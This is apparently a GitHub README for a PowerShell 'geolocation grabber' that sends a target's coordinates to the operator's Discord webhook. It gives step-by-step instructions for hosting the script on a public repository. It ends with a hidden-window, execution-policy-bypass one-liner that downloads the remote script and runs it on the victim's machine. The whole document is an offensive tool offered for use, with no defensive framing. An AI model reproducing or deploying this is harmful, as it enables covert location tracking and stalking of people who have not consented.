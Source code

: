 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
<img src="https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true" width="350" title="hover text">
<p>click geolocationgraber.ps1.txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906165-30e731b6-a8fe-46c8-b880-86898b2a0ae1.png?raw=true" width="350"> 
<p>click the pen<p/>
<p>del .txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906166-45d4a03e-e9c8-4852-904a-01461fb235db.png?raw=true" width="350"> 
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906167-75a9fcbd-bf67-42cc-9bb9-024a95bd70c2.png?raw=true" width="350"> 
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
 `powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex` 
